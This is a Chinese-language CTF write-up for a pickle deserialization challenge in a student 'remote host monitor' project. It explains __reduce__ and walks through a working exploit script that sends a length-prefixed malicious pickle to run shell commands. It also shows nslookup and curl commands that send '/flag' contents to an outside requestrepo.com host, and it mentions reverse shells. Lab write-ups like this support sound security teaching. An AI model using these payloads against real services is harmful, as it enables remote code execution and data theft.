



# 危险的课设

- 作者：13m0n4de
- 参考：-
- 难度：-
- 分类：Misc
- 镜像：[svuctf-spring-2024/pickle](https://ghcr.io/svuctf/svuctf-spring-2024/pickle)
- 端口：8848

## 题目描述

你混入了学长的教室，今天他们正在写一个叫做“远程主机性能监控”的小组作业。

「🤔这代码……」

「看来我可以黑掉学长们的电脑了。」

> Hint：server.py 是服务端，运行在靶机上；client.py 是示例客户端。两者都可以在本地运行测试。

## 题目解析

考点：Pickle 反序列化

二年级的同学们当时正在做这个作业，老师推荐使用 Pickle 库，于是有了这题，算是某种意义上的从真实事件中取材了。

在 Pickle 库的[文档](https://docs.python.org/zh-cn/3/library/pickle.html)开头，醒目地注明了 Pickle 数据在反序列化时是不安全的：



当对象被 `unpickle` 时，方法 `__reduce__` 将会被自动执行：

```python
import pickle, os


class P(object):
    def __reduce__(self):
        return (os.system, ("echo pwned!",))


# serialize
obj_bytes = pickle.dumps(P())
print(obj_bytes)

# deserialize
pickle.loads(obj_bytes)
```

```
$ python poc.py
b'\x80\x04\x95&\x00\x00\x00\x00\x00\x00\x00\x8c\x05posix\x94\x8c\x06system\x94\x93\x94\x8c\x0becho pwned!\x94\x85\x94R\x94.'
pwned!
```

这题是最基本的 Pickle 反序列化，不需要与 opcode 或者沙箱打交道，所以 Pickle 库的工作原理不在这里展开，重点分析一下通信的数据格式。

客户端关键代码：

```python
# client
info = Info()

client = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
client.connect((IP, PORT))

while True:
    # ...

    data = pickle.dumps(info)
    data = len(data).to_bytes(4) + data

    client.send(data)

    time.sleep(INTERVAL_TIME)
```

服务端关键代码：

```python
# server
server = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
server.bind((IP, PORT))
server.listen()

print(f"Server is running and listening on port {PORT}...")

while True:
    client, address = server.accept()
    client_ip, client_port = address
    print(f"Connected to client: {client_ip}:{client_port}")

    while True:
        try:
            data_len = client.recv(4)
            len = int.from_bytes(data_len)
            data = client.recv(len)
            info = pickle.loads(data)
            print_info(info)
        except Exception:
            client.close()
            break
```

可以看到，数据发送时会先计算序列化数据的长度，并将长度转换为 4 byte 拼接到序列化数据的头部；而数据接收时，会先接收 4 byte，转换为 int，用其作为长度接收序列化数据。

```python
# client
data = pickle.dumps(info)
data = len(data).to_bytes(4) + data

# server
data_len = client.recv(4)
len = int.from_bytes(data_len)
data = client.recv(len)
info = pickle.loads(data)
```

设计这样的传输方式是为了明确消息边界，保证数据完整。

漏洞利用的时候，也一样需要给数据前拼上“长度前缀”：

```python
import socket
import os
import pickle
from typing import Any

IP = "127.0.0.1"
PORT = 8848


class Evil:
    def __reduce__(self) -> str | tuple[Any, ...]:
        return (os.system, ("whoami",))


client = socket.socket()
client.connect((IP, PORT))

data = pickle.dumps(Evil())
data = len(data).to_bytes(4) + data
client.send(data)

client.close()
```

这样执行命令是没有回显的，需要将数据带出来，如果有公网 IP 可以考虑反弹 Shell，没有也没关系，推荐使用 [http://requestrepo.com/](http://requestrepo.com/)，可以记录 DNS 和 HTTP 请求，并且可以自定义返回内容。

使用 nslookup 测试数据能否带出（如果使用 `ping` 记得指定 `-c` 选项以免卡死靶机）：

```python
class Evil:
    def __reduce__(self) -> str | tuple[Any, ...]:
        return (os.system, ("nslookup kv4ie0su.requestrepo.com",))
```

可以看到有几次 DNS 请求：



带出数据的方式有很多种，举个使用 CURL 的例子，把命令结果放在 POST 请求体里：

```
cat /flag | curl kv4ie0su.requestrepo.com -d@-
```


